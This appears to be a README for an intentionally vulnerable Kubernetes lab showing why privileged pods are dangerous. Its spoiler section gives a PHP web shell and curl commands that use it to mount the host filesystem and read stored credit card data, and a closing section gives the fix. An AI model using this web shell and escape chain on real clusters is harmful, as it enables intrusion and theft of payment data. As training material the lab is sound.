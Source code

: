 # Privileged Pod

## Context
Privileged pod (AKA `privileged`) is one of the Security Context flags for a Pod or Container.
Privileged containers can do nearly everything a process on the host can do, and provide no isolation from other workloads. This kind of a setting should be avoided where possible.

## Env components
### Web
Vulnerable application with RCE and privileged access.

* Deployment - `k8s/PrivilegedPod/web/deployment.yaml`

    This `k8s` deployment contains the unsecured instruction `privileged: true`
* Service - `k8s/PrivilegedPod/web/service.yaml`

<img src="pics/web.png?raw=true" width="400">

### Payment
Payments processing microservice. Completely protected ;).

* Deployment - `k8s/PrivilegedPod/payment/deployment.yaml`
* Service - `k8s/PrivilegedPod/payment/service.yaml`

<img src="pics/payment.png?raw=true" width="400">

## Exploit

<details>
  <summary>Spoiler alert</summary>
    
  Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.

  1. Upload file `shell.php`:
      ```php
      <?php
      echo '<pre>';
      var_dump(system($_GET['cmd']));
      echo '</pre>';
      ?>
      ```
  2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
  3. Mount host's file system (usually `sda1` when Minikube is running on Mac / `/dev/vda1` on Linux) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
  4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
  5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`
</details>

## Fix

To fix the problem you need to remove `privileged` flag from [web/deployment.yaml](web/deployment.yaml#L27-L28). It will not help to protect `web` microservice but prevent steeling of credit cards from `payment` microservice.
